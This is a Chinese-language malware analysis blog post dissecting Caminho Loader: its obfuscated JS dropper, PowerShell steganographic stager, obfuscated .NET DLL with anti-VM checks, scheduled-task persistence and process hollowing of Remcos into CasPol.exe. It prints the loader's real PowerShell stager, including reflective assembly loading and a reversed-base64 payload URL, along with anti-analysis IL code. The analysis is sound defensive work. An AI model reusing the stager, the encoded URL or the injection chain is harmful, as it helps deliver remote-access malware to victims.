+++
date = '2025-11-08'

draft = false
title = "分析 Caminho Loader"

tags = ["Malware","Loader"]

categories = ["Analyze"]
+++

Caminho Loader与PhantomVAI Loader相似，被用来分发其他恶意软件，如Kata Stealer, Xworm, Remcos等

采用js脚本创建powershell下载并加载隐写有效载荷的png图片，后续使用Process Hollowing将有效载荷注入进程


## 运行流程图




## js运行


样本js代码被大量垃圾代码进行混淆填充



去除混淆后，创建powershell进程运行代码



this.blackbutt为随机字符填充的一个base64字符串，进行过滤和base64解码后内容为



## powershell运行

第一次下载，powershell下载保存在archive.org服务器上的图片文件， archive.org是一个非营利性的数字图书馆，主要保存互联网上的各种资源，包括网页、视频、音频，图片等。


该图片中保存了以BaseStart-开头， -BaseEnd结束的base64编码内容




powershell进行base64解码

```powershell
$revanchists = ($telifera -match 'BaseStart-(.*?)-BaseEnd'); 
$rebrobate = $matches[1]; 
$balladier = [Reflection.Assembly]::Load([Convert]::FromBase64String($rebrobate)); 
$polypectomy = '=QHe05CMzQTNzIzNyATM1IDMy81b2lWdxJXYvEmeu82YuEGcvN2bw9yL6MHc0RHa'; 
```

$polypectomy为反向的base64字符，实际解码后为url


加载内容到内存中运行，获取VAI方法进行调用，构造调用参数堆栈进行调用

```powershell
$combo = $balladier.GetType('ClassLibrary1.Class1'); 
$prason = $combo.GetMethod('VAI'); 
$prason.Invoke($revanchists,[object[]]@($polypectomy,'','C:\Users\Public\Downloads\','Name_File','CasPol','','CasPol','','URL','C:\Users\Public\Downloads\','Name_File','js','1','','Task_Name','0','','',''));
```

调用参数设置



## .net运行

base64字符串解码后为.net dll动态库文件



CaminhoLoader添加了大量混淆来对抗分析，比如对类名、函数、方法进行混淆，还有控制流混淆等。

如典型的控制流混淆



de4dot进行反混淆



因.net dll需要动态加载才可调试运行，这里手动使用powershell进行反射加载运行，dnspy进行附加调试

反射加载.net文件

```powershell
$balladier = [Reflection.Assembly]::LoadFile("C:\xxxxx\Desktop\test.bin");
```

构造VAI方法调用

```powershell
$polypectomy = "=QHe05CMzQTNzIzNyATM1IDMy81b2lWdxJXYvEmeu82YuEGcvN2bw9yL6MHc0RHa"
$combo = $balladier.gettype("ClassLibrary1.Class1")
$prason = $combo.getmethod("VAI")
$prason.invoke("", [object[]]@($polypectomy, "", "C:\\Users\\Public\\Downloads\\", "Name_File", "CasPol", "", "CasPol", "", "URL", "C:\\Users\\Public\\Downloads\\", "Name_File", "js", "1", "", "Task_Name", "0", "", "", ""))
```

dnspy附加powershell.exe，即可进行调试



在运行之前将进行反调试，虚拟机检测，进程检测等操作，如下图





通过AES解密算法解密资源





加载当前进程中的LLcLn资源



该dll资源中内嵌一个被加密的模块，使用AES算法解密LLcLn资源内容为



bWcwiDztFkJF模块作为资源中转站，其中存在两个被AES加密的资源文件，通过获取该模块中的资源进行字符串的解密

FhPXU解密后内容，CaminhoLoader运行时所需的字符串都包含在其中



### 运行时代码构建

动态创建?模块和类型， 并且进行反射调用



方法名字符串，在动态创建.net IL代码时会使用

```c#
System.Reflection.Assembly
GetEntryAssembly
get_FullName
op_Inequality
get_Length
GetTypeFromHandle
get_Name
IndexOf
ReadString
Add
get_Position
get_CurrentDomain
SetData
13447
AssemblyServer
SimpleAssemblyExplorer
babelvm
smoketest
```

生成IL代码



动态创建的IL代码

```c#
ldc.i4	0x3487
stloc.0
call	class [mscorlib]System.Reflection.Assembly [mscorlib]System.Reflection.Assembly::GetEntryAssembly()
stloc.1
ldloc.1
brfalse.s	50 (0068) ldarg.0 
ldloc.1
callvirt	instance string [mscorlib]System.Reflection.Assembly::get_FullName()
stloc.s	V_6 (6)
nop
nop
nop
ldloc.s	V_6 (6)
nop
nop
nop
ldstr	"AssemblyServer"
ldc.i4.5
callvirt	instance int32 [mscorlib]System.String::IndexOf(string, valuetype [mscorlib]System.StringComparison)
ldc.i4.m1
bne.un.s	48 (0066) ldc.i4.0 
ldloc.s	V_6 (6)
nop
nop
nop
ldstr	"SimpleAssemblyExplorer"
ldc.i4.5
callvirt	instance int32 [mscorlib]System.String::IndexOf(string, valuetype [mscorlib]System.StringComparison)
ldc.i4.m1
bne.un.s	48 (0066) ldc.i4.0 
ldloc.s	V_6 (6)
nop
nop
nop
ldstr	"babelvm"
ldc.i4.5
callvirt	instance int32 [mscorlib]System.String::IndexOf(string, valuetype [mscorlib]System.StringComparison)
ldc.i4.m1
bne.un.s	48 (0066) ldc.i4.0 
ldloc.s	V_6 (6)
nop
nop
nop
ldstr	"smoketest"
ldc.i4.5
callvirt	instance int32 [mscorlib]System.String::IndexOf(string, valuetype [mscorlib]System.StringComparison)
ldc.i4.m1
beq.s	50 (0068) ldarg.0 
ldc.i4.0
stloc.0
ldarg.0
callvirt	instance int64 [mscorlib]System.IO.Stream::get_Length()
stloc.2
ldarg.0
newobj	instance void [mscorlib]System.IO.BinaryReader::.ctor(class [mscorlib]System.IO.Stream)
stloc.3
newobj	instance void [mscorlib]System.Collections.Hashtable::.ctor()
stloc.s	V_4 (4)
nop
nop
nop
ldloc.3
callvirt	instance string [mscorlib]System.IO.BinaryReader::ReadString()
stloc.s	V_5 (5)
nop
nop
nop
ldloc.s	V_4 (4)
nop
nop
nop
ldc.i4.m1
box	[mscorlib]System.Int32
ldloc.s	V_5 (5)
nop
nop
nop
callvirt	instance void [mscorlib]System.Collections.Hashtable::Add(object, object)
ldloc.0
brfalse.s	100 (00D2) call class [mscorlib]System.AppDomain [mscorlib]System.AppDomain::get_CurrentDomain()
br.s	96 (00C9) ldarg.0 
ldloc.s	V_4 (4)
nop
nop
nop
ldarg.0
callvirt	instance int64 [mscorlib]System.IO.Stream::get_Position()
conv.i4
ldc.i4	0x50
add
ldloc.0
xor
box	[mscorlib]System.Int32
ldloc.3
callvirt	instance string [mscorlib]System.IO.BinaryReader::ReadString()
callvirt	instance void [mscorlib]System.Collections.Hashtable::Add(object, object)
ldarg.0
callvirt	instance int64 [mscorlib]System.IO.Stream::get_Position()
ldloc.2
blt.s	81 (00A5) ldloc.s V_4 (4)
call	class [mscorlib]System.AppDomain [mscorlib]System.AppDomain::get_CurrentDomain()
ldloc.s	V_5 (5)
nop
nop
nop
ldloc.s	V_4 (4)
nop
nop
nop
callvirt	instance void [mscorlib]System.AppDomain::SetData(string, object)
ldloc.s	V_5 (5)
nop
nop
nop
ret
```

创建的?模块中实现了对FhPXU解密的字符串进行hashtable保存，该**hashTable**中保存了运行时所需的字符串，可在运行时查表快速获取字符串，如**CreateProcessA**， **VirtualAllocEx**，**SOFTWARE\Microsoft\Windows\CurrentVersion\Run**等



通过hashTable获取字符串



**\uEF6A.\uEF2A**检测虚拟机，根据hashtable获取保存的vmname，类似于[VMDetector](https://github.com/robsonfelix/VMDetector)虚拟机检测， 检测是否在沙盒中运行



该dll可根据上面VAI参数设置进行任务计划进行持久化设置，可设置任务计划启动项为Name_File.js，Task_Name为任务名

第二次下载，连接服务器，进行网络连接下载txt文件



该txt文件同样也被base64编码



解码后为可执行文件



### 进程注入

拼接CasPol.exe路径，后续将可执行文件注入到其中。



动态获取API地址





将解密后的可执行文件反射注入到CasPol.exe进程中运行



.net使用WinAPI， 创建傀儡进程进行程序的注入

> *CreateProcessA ->  ZwUnmapViewOfSection -> VirtualAllocEx -> WriteProcessMemory -> GetThreadContext/SetThreadContex -> ResumeThread*



最终可执行文件为remcos商业木马




## IOC



